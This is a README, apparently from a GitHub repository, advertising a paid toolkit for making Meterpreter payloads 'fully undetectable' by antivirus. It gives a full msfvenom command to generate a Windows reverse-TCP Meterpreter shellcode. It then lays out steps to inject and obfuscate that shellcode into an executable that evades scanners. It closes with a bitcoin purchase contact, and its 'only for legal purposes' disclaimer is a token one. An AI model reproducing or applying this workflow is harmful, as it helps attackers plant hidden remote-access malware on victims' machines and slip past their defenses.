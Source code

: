 # Meterpreter-FUD
Toolkit to create a Fud meterpreter, which bypass every Anti-Virus.

The Toolkit has 2 scripts, A shellcode injector and a obfuscator, you have to generate the payload via Metersploit and this command:

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOURIP LPORT=4444 -f python

You put the shellcode into the shellcode.py file, then you run the main.py script and get a fud python script, which you can compile to a exe file

The output python script will always be different, because of the special obfuscator, so even if someone upload the script to virustotal, the new generated will not get detected. But pls dont upload ;) Only for LEGAL purposes!!!

Write an email to back-oor@proton.me to buy it, payments via bitcoin!
